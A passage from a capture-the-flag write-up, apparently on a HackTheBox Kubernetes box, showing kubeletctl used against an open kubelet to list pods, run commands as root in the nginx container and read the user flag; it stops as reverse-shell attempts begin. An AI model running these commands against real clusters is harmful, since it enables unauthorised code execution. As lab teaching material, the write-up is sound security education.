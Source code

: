                 "resources": {}
              }
            ]
          },
          "status": {}
        }
      ]
    }
    

To make it more readable, I’ll use `jq` to get a list of the name and
namespace:

    
    
    oxdf@hacky$ kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
    ["kube-proxy-562gf","kube-system"]
    ["kube-scheduler-steamcloud","kube-system"]
    ["kube-controller-manager-steamcloud","kube-system"]
    ["kube-apiserver-steamcloud","kube-system"]
    ["etcd-steamcloud","kube-system"]
    ["nginx","default"]
    ["coredns-78fcd69978-7dhjv","kube-system"]
    ["storage-provisioner","kube-system"]
    

There’s only one that’s not in the `kube-system` namespace.

## Shell as root in nginx

### exec

With access to the kubelet service, I can also run commands on the containers.
I’ll use the `exec` command in `kubeletctl`, giving both the name of the pod
(nginx) and the name of the container (nginx):

    
    
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
    uid=0(root) gid=0(root) groups=0(root)
    

As root, I can read the `user.txt` in the `/root` directory:

    
    
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "ls /root" -p nginx -c nginx
    user.txt
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "cat /root/user.txt" -p nginx -c nginx
    e73f21f6************************
    

### Rev Fails

I tried a handful of things to get the container to connect back to me. It
does have `bash`:
